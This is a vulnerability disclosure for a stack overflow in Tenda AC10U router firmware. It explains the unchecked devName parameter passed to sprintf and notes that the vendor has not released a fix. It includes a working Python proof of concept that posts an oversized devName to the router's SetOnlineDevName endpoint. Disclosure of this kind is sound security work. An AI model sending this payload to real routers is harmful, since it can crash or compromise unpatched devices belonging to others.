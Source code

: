 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the devName parameter in the formSetDeviceName function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formSetDeviceName" retrieves the parameter "devName" using "websGetVar" and passes it to the function "set_device_name" without undergoing any length checks.

![1705401961712](image/formSetDeviceName/1705401961712.png)

The function "set_device_name" only checks for the existence of the parameter "dev_name" and passes it to the "mib_name" array using sprintf. If the length of "dev_name" exceeds the length of the "mib_name" array, it will result in a stack overflow.

![1705402051228](image/formSetDeviceName/1705402051228.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b',
    "devName": 'devname1'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html

